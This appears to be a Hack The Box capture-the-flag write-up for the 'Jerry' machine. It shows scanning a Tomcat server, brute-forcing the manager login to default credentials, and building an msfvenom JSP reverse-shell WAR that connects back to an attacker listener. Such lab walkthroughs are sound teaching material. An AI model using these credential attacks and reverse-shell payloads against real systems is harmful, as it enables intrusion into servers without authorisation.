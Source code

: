 ```yaml
---
title: HTB - Jerry
date: 2023-12-01
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, apache-tomcat, dir-busting, credential-enumeration, default-credentials, metasploit, msfvenom, webshell]
img_path: /assets/htb/fullpwn/jerry/
published: true
---
```


![room_banner](machine_banner.png)

## Overview

|:-:|:-:|
|Machine|[Jerry](https://app.hackthebox.com/machines/144)|
|Rank|Easy|
|Time|1h48min|
|Focus|Default credentials, webshells|

## 1. Information Gathering

```shell
# sending ICMP requests to target
ping jerry
PING jerry (10.10.10.95) 56(84) bytes of data.
64 bytes from jerry (10.10.10.95): icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=2 ttl=127 time=24.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=3 ttl=127 time=25.6 ms
64 bytes from jerry (10.10.10.95): icmp_seq=4 ttl=127 time=23.9 ms
```

Host is alive and based on `ttl=127` it is a Windows machine.

```shell
# port scanning with nmap
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 jerry

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
```

## 2. Initial Foothold

```shell
# dir-busting with msf
msfconsole -q
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 10.10.10.95
[+] Found http://10.10.10.95:8080/[SecCheck]/ 400 (10.10.10.95)
[+] Found http://10.10.10.95:8080/docs/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/examples/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/manager/ 302 (10.10.10.95)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Hacktricks: [Default Credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#username-enum)

```shell
# enumerating login credentials with msf
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
...
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Credentials can be also found this way:

<figure>
    <img src="default_creds.jpg"
    alt="Default credentials" >
</figure>

We are now logged in and can see a lot of extra information:

<figure>
    <img src="logged_in_default_creds.png"
    alt="Successfully logged in with default credentials" >
</figure>

<figure>
    <img src="server_details.png"
    alt="Tomcat version information" >
</figure>

> Hacktricks: [MSFVenom Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)
> _The `java/shell_reverse_tcp` payload did not work, but `jsp_shell_reverse_tcp` did._

```shell
# crafting the payload with msfvenom
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f war -o revshell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
```

```shell
# receiving the reverse shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

> Both `user.txt` and `root.txt` are available without lateral pivoting or privesc.

<figure>
    <img src="jerry_pwned.png"
    alt="Machine pwned" >
</figure>